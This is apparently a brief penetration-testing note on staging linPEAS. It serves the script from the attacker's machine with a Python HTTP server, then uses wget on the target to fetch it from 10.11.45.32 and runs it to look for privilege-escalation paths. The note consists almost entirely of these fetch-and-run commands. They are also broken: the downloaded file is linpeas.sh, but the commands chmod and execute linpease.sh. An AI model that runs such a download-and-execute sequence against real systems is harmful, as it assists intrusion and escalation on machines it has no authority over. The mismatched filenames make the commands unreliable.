https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

run http server on localmachine
```bash
python3 -m http.server 80
```

```bash
wget 10.11.45.32/linpeas.sh

chmod +x linpease.sh
./linpease.sh
```
